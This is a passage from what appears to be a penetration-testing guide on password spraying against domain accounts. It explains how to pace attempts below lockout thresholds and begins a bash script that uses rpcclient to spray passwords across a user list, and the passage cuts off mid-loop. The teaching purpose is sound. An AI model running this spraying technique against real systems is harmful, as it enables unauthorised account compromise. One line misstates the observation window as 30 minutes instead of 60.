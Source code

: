 This ensures that each account has time to reset its counter if our attempts are unsuccessful, keeping our attack below the lockout threshold.

>[!NOTE]
>Yes, the **observation window** in password spraying is the same as the **"Reset account lockout counter after"** setting found in the domains password policy :thumbsup:

#### Responsible Password Spraying Example in Practice
Let us say during our enumeration we discover the following password policy:

- **Account Lockout Threshold**: 3 failed attempts.
- **Reset Account Lockout Counter After**: 60 minutes.
- **Account Lockout Duration**: 15 minutes.

In this scenario:

- The **observation window** is 60 minutes. If we have 3 failed attempts within these 30 minutes, the account is locked - bad juju :facepalm: 
- After 60 minutes pass without 3 consecutive failed attempts, the counter resets to 0, and we can safely retry without triggering a lockout - good juju :smiling_imp: 

In short, we need to tailor our attacks to the context of the domain password policy of the organization we are targetting.

### Example bash script for Automated Password Spraying

When pentesting time is of the essence - we need to be working on other areas of our testing whilst our password spraying attacks are running - this makes it useful to know how we can use *bash* to automate them.

Here we will look at a simple bash script that automates a password spraying attack using a given list of usernames and passwords. This script uses `rpcclient` to perform the spraying, includes a delay between each password attempt to avoid lockouts, and saves the successful logins to a separate file.

#### Prerequisites
1. Create a file named `userlist.txt` containing usernames (one username per line).
2. Create a file named `passwordlist.txt` containing the passwords to spray (one password per line).

#### Bash Script: `password_spray.sh`
```bash!
#!/bin/bash

# Input files
target_ip="<TARGET-IP>"         # Replace with the IP of the target system
userlist="userlist.txt"
passwordlist="passwordlist.txt"
delay=1800                      # Set delay between sprays (e.g., 1800 seconds = 30 minutes)
output_file="successful_attempts.txt"  # File to store successful logins

# Ensure the output file exists and is empty at the start
> $output_file

# Check if both user and password list files exist
if [[ ! -f $userlist ]] || [[ ! -f $passwordlist ]]; then
  echo "Userlist or Passwordlist file not found!"
  exit 1
fi

# Loop through each password in the password list
while IFS= read -r password; do
  echo "Spraying password: $password"
  
  # Loop through each user in the user list for the current password
  while IFS= read -r username; do
    echo "Trying $password for user: $username"
```